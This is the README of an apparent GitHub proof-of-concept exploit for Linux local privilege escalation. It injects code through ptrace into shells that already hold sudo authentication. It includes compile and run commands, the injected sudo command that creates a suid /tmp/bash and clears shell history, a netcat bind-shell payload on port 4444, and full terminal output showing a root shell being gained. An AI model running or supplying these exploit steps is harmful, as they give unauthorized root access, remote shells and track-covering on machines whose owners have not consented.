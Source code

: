 # ptrace misconfiguration local privilege escalation
ptrace misconfiguration Local Privilege Escalation

WARNING! this is a POC, the code is CRAP

video demo on youtube: https://youtu.be/3Qmy1Y8W7A8

Injecting code via ptrace (with same user) in shells with sudo authenticated

Exploit Reqs:
* ptrace enable to attach the processes of the user
* terminal with a sudo user group (attacker)
* terminal with the same user & sudo authenticated (victim)
* run xpk or ptrex 

WARNING: if GDB is installed in the machine is more safe run https://www.exploit-db.com/exploits/46989

'ptrace_scope' misconfiguration Local Privilege Escalation by Marcelo Vazquez (s4vitar) & Victor Lasa (vowkin)

my code is based in the s4vitar & vowkin POC and use ptrace (no GDB dep).

I made two POC-flavours for the same thing xpk.c & ptrex.c

## xpk.c
stdin hijack (using ptrace_do lib https://github.com/emptymonkey/ptrace_do): sudo -S cp /bin/bash /tmp + sudo -S chmod +s /tmp/bash + history -c 
```
gcc -o xpk xpk.c
./xpk
```

WARNING: only works for x86_64 systems (ptrace_do limitation)

* can inject code from x86_64-xpk-compiled to x86_64 process
* can inject code from x86_64-xpk-compiled to x86 process

## ptrex.c:
shellcode injection (using ptrace) execve(python -c import os; os.system("echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1")); 
```
gcc -o ptrex ptrex.c
 ./ptrex 
```

You can also inject your own python code: 

./ptrex full_python_path newcmdline

Example with 
* own python binary: /home/dreg/tmp/python
* bind bash shell python code: import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")
```
./ptrex /home/dreg/tmp/python 'import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")'
```

* works for x86_64 systems & x86 systems
* can inject code from x86_64-ptrex-compiled to x86_64 process
* can inject code from x86-ptrex-compiled to x86 process
* can inject code from x86_64-ptrex-compiled to x86 process

WARNING: inject code from x86-ptrex-compiled to x86_x64 process is not possible

## How to test xpk.c:
Open a terminal with a sudo user group

execute any command with sudo and enter the password, ex:
```
dreg@fr33project:~$ tty
/dev/pts/4
dreg@fr33project:~$ id
uid=1003(dreg) gid=1003(dreg) groups=1003(dreg),27(sudo)
dreg@fr33project:~$ sudo whoami
[sudo] password for dreg:
root
dreg@fr33project:~$ 
```

open other terminal with the same user and execute ./xpk (the name of the exploit executable is important, dont change!)
```
dreg@fr33project:~$ tty
/dev/pts/7
dreg@fr33project:~$ .gcc -o xpk xpk.c
dreg@fr33project:~$ ./xpk
David Reguera Garcia aka Dreg exploit without gdb dep, based in:
https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation
Authors: Marcelo Vazquez  (s4vitar)
         Victor Lasa       (vowkin)

[*] PID -> bash
[*] Path 2660: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2892: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> sh
[*] Path 2998: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2999: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap

[*] Cleaning up...
[*] Spawning root shell...
bash-5.0# id
uid=1003(dreg) gid=1003(dreg) euid=0(root) egid=0(root) groups=0(root),27(sudo),1003(dreg)
bash-5.0# whoami
root
bash-5.0#
```

## How to test ptrex.c:
Open a terminal with a sudo user group

execute any command with sudo and enter the password, ex:
```
dreg@fr33project:~$ tty
/dev/pts/4
dreg@fr33project:~$ id
uid=1003(dreg) gid=1003(dreg) groups=1003(dreg),27(sudo)
dreg@fr33project:~$ sudo whoami
[sudo] password for dreg:
root
dreg@fr33project:~$ 
```

open other terminal with the same user and execute ./xpk (the name of the exploit executable is important, dont change!)
```
dreg@fr33project:~$ tty
/dev/pts/7
dreg@fr33project:~$ .gcc -o ptrex ptrex.c
dreg@fr33project:~$ ./ptrex
ptrex v0.3-beta - MIT License - Copyright 2020
David Reguera Garcia aka Dreg - dreg@fr33project.org
http://github.com/David-Reguera-Garcia-Dreg/ - http://www.fr33project.org/
-
ptrace misconfiguration Local Privilege Escalation
using ptrace (no GDB dep) execve
-
Based from: https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation by Marcelo Vazquez (s4vitar) & Victor Lasa (vowkin)

To change default python path & cmd injected: ./ptrex full_python_path newcmdline
    example: ./ptrex /home/dreg/tmp/python 'import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")'

/proc/sys/kernel/yama/ptrace_scope : 0
pgrep "^(echo $(cat /etc/shells | tr '/' ' ' | awk 'NF{print $NF}' | tr '\n' '|'))$" -u "$(id -u)" | sed '$ d'
current pid: 18888
skipping current shell pid: 18888
current pid: 20156
elf plat: 64
waiting for process
getting registers
injecting shellcode at: 0x00007f33a88890e9
setting instruction pointer to: 0x00007f33a88890e9
runing
please wait...
found suid shell: /tmp/bash
rooting.....
/tmp/bash -p -c 'rm /tmp/bash ; tput cnorm && /bin/bash -p'

bash-5.0# whoami
root
bash-5.0#
```
## WORKING ON:

* Parrot Home/Workstation: 4.6 
* Parrot Security: 4.6 
*	CentOS / RedHat: 7.6 
*	Kali Linux: 2018.4 
* Debian GNU/Linux: 10 (buster)

## CONTRIBUTORS

nobody loves me

## TODO

*  Research why GDB call system("") is more stable and safe. ptrex needs the "python -c" thing for a safe execve injection **in a bash shell** (in other processes I can inject any execve(cmd) without problems, no idea why this happens).

